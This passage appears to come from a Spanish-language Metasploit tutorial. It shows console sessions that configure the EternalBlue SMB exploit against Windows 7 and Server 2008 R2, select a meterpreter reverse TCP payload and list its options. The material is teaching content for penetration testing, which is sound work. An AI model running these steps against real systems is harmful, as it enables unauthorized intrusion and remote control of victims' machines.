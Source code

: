 ```

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp

```

Después de seleccionar una carga útil, tendremos más opciones disponibles para nosotros.

Cargas útiles

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

```
